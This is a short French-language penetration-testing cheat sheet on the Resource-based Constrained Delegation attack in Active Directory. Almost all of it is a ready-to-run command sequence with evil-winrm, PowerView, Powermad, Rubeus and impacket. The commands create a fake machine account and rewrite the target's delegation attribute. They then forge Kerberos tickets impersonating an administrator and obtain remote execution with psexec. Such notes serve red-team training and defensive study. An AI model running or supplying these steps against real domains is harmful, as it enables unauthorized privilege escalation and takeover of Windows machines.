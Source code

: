 # Resource-based Constrained Delegation

_**Note :** Cette attaque est possible si un utilisateur dispose des droits "GenericAll" sur un objet ordinateur._

_**Objectif :** Devenir administrateur de l'objet ordinateur (\<MACHINE-CIBLE>)._

<pre><code><strong>### Connexion à une machine du domaine
</strong><strong>$ evil-winrm -u "&#x3C;USER>" -p '&#x3C;PASSWORD>' -i &#x3C;MACHINE-DU-DOMAINE> -s /home/kali/tools/
</strong>#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe

### Conditions

#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide

### Réalisation de l'attaque

#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount &#x3C;FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer &#x3C;FAKE-MACHINE> -> Récupération du SID

#### Indiquer à &#x3C;MACHINE-CIBLE> qu'elle doit faire confiance au compte &#x3C;FAKE-MACHINE>
<strong>#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;&#x3C;SID-FAKE-MACHINE>)"
</strong>#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer &#x3C;MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#### Conversion du mot de passe 123456 au format RC4
#>./Rubeus.exe hash /password:123456 /user:&#x3C;FAKE-MACHINE> /domain:&#x3C;DOMAINE>

#### Génération des tickets Kerberos et RCE
##### Windows
#>./Rubeus.exe s4u /user:&#x3C;FAKE-MACHINE> /rc4:&#x3C;RC4-PASSWORD> /impersonateuser:&#x3C;ADMIN-MACHINE-CIBLE> /msdsspn:cifs/&#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE> /domain:&#x3C;DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
##### Linux
<strong>$ impacekt-getST -spn "cifs/&#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE>" -impersonate &#x3C;ADMIN-MACHINE-CIBLE> -dc-ip &#x3C;IP-DC> '&#x3C;DOMAINE>/&#x3C;FAKE-MACHINE>$:123456'
</strong>$ export KRB5CCNAME=&#x3C;ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k &#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE></code></pre>
